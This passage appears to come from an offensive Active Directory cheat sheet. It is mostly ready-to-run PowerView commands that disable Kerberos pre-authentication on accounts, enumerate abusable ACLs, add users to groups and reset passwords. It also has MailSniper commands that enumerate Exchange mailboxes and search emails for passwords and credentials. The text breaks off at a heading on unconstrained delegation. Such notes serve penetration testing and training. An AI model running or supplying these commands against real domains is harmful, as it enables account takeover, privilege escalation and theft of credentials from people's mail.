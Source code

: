#### Set preauth not required
```
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

## Access Control List
- It is possible to abuse permissions (ACL's)
- `ObjectDN` = The object the permissions apply to
- `ActiveDirectoryRight` == Permissions
- `IdentityReferenceName` == Object who has the permissions
```
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN>
```

#### Set SPN
- See [Set SPN](#Set-SPN) 

### Add user to a group
```
Add-DomainGroupMember -Identity "<GROUP>" -Members <DOMAIN>\<USER>
```

#### Set users password
```
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
Set-DomainUserPassword Identity <USER> -AccountPassword $password -Domain <DOMAIN>
```

## MS Exchange
- https://github.com/dafthack/MailSniper

#### Enumerate all mailboxes
```
Get-GlobalAddressList -ExchHostname us-exchange -Verbose -UserName <DOMAIN>\<USER> -Password <PASSWORD>
```

#### Check access to mailboxes with current user
```
Invoke-OpenInboxFinder -EmailList emails.txt -ExchHostname us-exchange -Verbose
```

#### Read e-mails
- The below command looks for terms like pass, creds, credentials from top 100 emails
```
Invoke-SelfSearch -Mailbox <EMAIL> -ExchHostname <EXCHANGE SERVER NAME> -OutputCsv .\mail.csv
```

## Delegation
### Unconstrained Delegation
- To execute attack owning the server with unconstrained delegation is required!
